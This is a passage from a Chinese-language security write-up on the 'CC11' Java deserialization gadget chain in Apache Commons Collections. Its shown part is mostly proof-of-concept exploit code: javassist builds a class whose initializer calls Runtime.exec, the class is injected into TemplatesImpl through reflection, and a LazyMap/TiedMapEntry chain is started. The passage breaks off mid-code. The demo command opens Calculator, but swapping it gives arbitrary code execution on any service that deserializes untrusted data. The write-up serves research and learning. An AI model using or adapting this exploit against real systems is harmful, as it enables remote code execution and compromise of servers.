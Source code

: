 # 前言

最近朋友发了我个名为CC11的链子，，看了看原来是就是CC2和CC6拼接了起来，但是当我尝试自己写POC的时候，又发现了一些细节的问题，于是吧这一篇分析写了下来

# 漏洞复现

```
package CC;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;

@SuppressWarnings("all")
public class CC11 {
    public static void main(String[] args) throws Exception {

        // 利用javasist动态创建恶意字节码
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] classBytes = STU.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();

        Field f0 = templates.getClass().getDeclaredField("_bytecodes");
        f0.setAccessible(true);
        f0.set(templates,targetByteCodes);

        f0 = templates.getClass().getDeclaredField("_name");
        f0.setAccessible(true);
        f0.set(templates,"name");

        f0 = templates.getClass().getDeclaredField("_class");
        f0.setAccessible(true);
        f0.set(templates,null);

        InvokerTransformer transformer = new InvokerTransformer("asdfasdfasdf", new Class[0], new Object[0]);
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,transformer);
        TiedMapEntry tiedmap = new TiedMapEntry(map,templates);
        HashSet hashset = new HashSet(1);
        hashset.add("foo");
        Field f = null;
        try {
```